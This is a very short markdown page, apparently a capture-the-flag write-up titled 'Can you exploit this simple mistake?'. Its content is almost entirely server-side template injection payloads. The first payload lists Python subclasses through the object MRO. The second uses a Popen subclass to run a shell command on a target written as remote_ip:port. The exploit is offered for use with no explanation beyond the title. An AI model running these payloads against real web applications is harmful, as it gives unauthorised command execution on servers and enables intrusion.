

# __Can you exploit this simple mistake?__

<http://remote_ip:port/{{template_payload}}>

{{''.__class__.mro()[1].__subclasses__()}}

{{''.__class__.mro()[1].__subclasses__()[414]('ls',shell=True,stdout=-1).communicate()[0].strip()}}
